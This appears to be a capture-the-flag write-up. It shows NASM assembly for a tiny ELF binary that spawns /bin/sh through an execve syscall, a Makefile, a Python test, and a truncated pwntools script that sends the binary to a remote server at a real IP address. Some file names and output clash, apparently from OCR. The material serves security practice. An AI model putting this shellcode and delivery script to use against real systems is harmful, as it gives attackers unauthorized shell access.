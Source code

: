 ```shell.s {filename=shell.s, linenos=table}
            inc     eax                     ; e_flags
            int     0x80
            db      0
            dw      0x34                    ; e_ehsize
            dw      0x20                    ; e_phentsize
            dw      1                       ; e_phnum
            dw      0                       ; e_shentsize
            dw      0                       ; e_shnum
            dw      0                       ; e_shstrndx
_start:
    push   eax              
    push   0x68732f6e       
    push   0x69622f2f       
    mov    ebx, esp         
    mov    al, 0xb          
    int    0x80

filesize      equ     $ - $$
```

here's `Makefile` that makes the executable generation steps a lot less clumsy.

```makefile
all: run
build:
    nasm -f bin -Ox -o shell shell.s
link: build
    chmod +x shell
run: link
    @ls -l shell | awk '{print $$5}' | xargs -I {} echo "size: {} bytes"
    @./shell
clean:
    rm shell.o shell
```

upon executing `make run` it seems to work fine! and we can confirm the size of the executable using `wc`
```bash
$ wc -c tiny
69 $ |
```

i prepared a small python script to test if this actually works
```py
import os 

filename = "./shell"
os.execve(filename, [filename], {})
```

and upon executing this python file, as anyone can confirm this certainly works! i grabbed the executable and quickly wrote the a script to send this to the remote server.

```py
import os
import base64
from pwn import *

filename = "./tiny"

elf_data = open(filename, "rb").read()
content = base64.b64encode(elf_data)

host = '89.169.156.185'
port = 10200
r = remote(host, port, level='DEBUG')

```